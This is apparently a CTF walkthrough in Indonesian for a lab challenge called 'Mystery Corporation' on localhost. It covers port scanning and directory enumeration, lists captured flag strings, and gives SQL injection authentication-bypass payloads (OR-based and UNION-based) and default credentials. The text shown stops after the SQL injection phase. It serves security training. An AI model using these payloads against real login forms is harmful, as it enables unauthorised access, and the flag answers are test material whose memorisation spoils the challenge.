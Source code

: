 # 🔍 Mystery Corporation CTF - Complete Solution Guide

## 🎯 Overview
Panduan lengkap untuk menyelesaikan Mystery Corporation CTF dengan semua teknik yang diperlukan.

## 📋 Step-by-Step Solution

### Phase 1: Reconnaissance 🔍

#### 1.1 Port Scanning dengan Nmap
```bash
# Basic port scan
nmap -p- localhost

# Service detection
nmap -sV -p 8080,8081,3306 localhost

# Expected results:
# Port 8080: HTTP (main web application)
# Port 8081: HTTP (hidden service)
# Port 3306: MySQL (database)
```

#### 1.2 Directory Enumeration dengan Gobuster
```bash
# Basic directory scan
gobuster dir -u http://localhost:8080 -w /usr/share/wordlists/dirb/common.txt

# Common directories to find:
# /admin/ (403 Forbidden - requires authentication)
# /backup/ (200 OK - contains database.sql)
# /robots.txt (200 OK - contains hints)
```

#### 1.3 Information Gathering
```bash
# Check robots.txt
curl http://localhost:8080/robots.txt

# Check source code comments
curl http://localhost:8080/ | grep -i "<!--"
```

**Flags Found:**
- `FLAG{hidden_service_discovered_8081}` - Akses http://localhost:8081
- `FLAG{backup_files_exposed_g0bust3r}` - Baca /backup/database.sql

### Phase 2: SQL Injection 💉

#### 2.1 Authentication Bypass
```bash
# Method 1: Default credentials
Username: admin
Password: admin123

# Method 2: SQL Injection
Username: admin' OR '1'='1'-- 
Password: anything

# Method 3: Union-based injection
Username: admin' UNION SELECT 1,'admin','admin123','admin',5-- 
Password: admin123
```